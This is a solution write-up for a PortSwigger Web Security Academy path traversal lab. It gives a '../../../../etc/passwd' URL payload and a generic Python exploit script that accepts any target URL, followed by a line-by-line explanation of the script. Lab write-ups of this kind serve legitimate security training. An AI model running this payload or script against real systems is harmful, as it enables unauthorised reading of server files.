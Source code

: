 # File path traversal, simple case

https://portswigger.net/web-security/file-path-traversal/lab-simple

This lab contains a path traversal vulnerability in the display of product images.
To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solution

To solve this, we must find a way to get into the folder `/etc/passwd`. We can do this using path traversal.
Lets check one of the url of the images in the webpage.

```
https://0a5700da038af37982ad984100db00b2.web-security-academy.net/image?filename=16.jpg
```

From here we can just edit the file name to go to our desired folder.
Often the files for web servers are located in `/var/www/html` and in this case it could be inside a folder `/images` but we don't know for sure. 
What we can do is move up the folder a couple of times to make sure that when we include the path to our `passwd` file, we are in the root directory. 

```
https://0a5700da038af37982ad984100db00b2.web-security-academy.net/image?filename=../../../../etc/passwd
```

And with this we have solved the lab!

Python script to automate:

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```

  
This Python script is designed to exploit a directory traversal vulnerability in a web application. Directory traversal is a type of attack that allows an attacker to access directories and files that are outside the intended directory.

Let's break down the code step by step:

**Imports**:

```python
import sys 
import requests 
import urllib3
```

- `sys`: Provides access to some variables used or maintained by the interpreter and to functions that interact with the interpreter.
- `requests`: A popular Python library for making HTTP requests.
- `urllib3`: A powerful library for handling HTTP requests in Python.

**Disable Warnings**:

```python
`urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)`
```

This disables the warnings related to insecure requests. It's commonly used to suppress warnings when making requests to sites with invalid or self-signed SSL certificates.

**Proxies Configuration**:

```python
`proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}`
```

This sets up proxy settings. The script is configured to use a proxy server running on `127.0.0.1` at port `8080` for both HTTP and HTTPS requests. This is useful for intercepting and inspecting the traffic using tools like Burp Suite.

**directory_traversal_exploit Function**:

```python
def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)
```

- This function constructs a URL that attempts to access the `/etc/passwd` file on the target system by exploiting the directory traversal vulnerability.
- It sends an HTTP GET request to this URL using the `requests.get()` method.
- If the response text contains 'root:x', it indicates that the exploit was successful, and the content of the `/etc/passwd` file is printed.
- If the exploit fails, it prints a failure message and exits the script.

**main Function**:

```python
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)
```

- This function is the main entry point of the script.
- It checks if the script is provided with exactly one command-line argument (the target URL).
- If the correct number of arguments is not provided, it prints the correct usage of the script and exits.
- It then calls the `directory_traversal_exploit()` function with the provided URL.

**Script Execution**:

```python
if __name__ == "__main__":
    main()
```

This block ensures that the `main()` function is executed when the script is run as the main program.

To use this script, you would run it from the command line, providing the target URL as an argument. For example:

```shell
python3 script_name.py www.target-site.com
```

Replace `script_name.py` with the actual name of the script file.

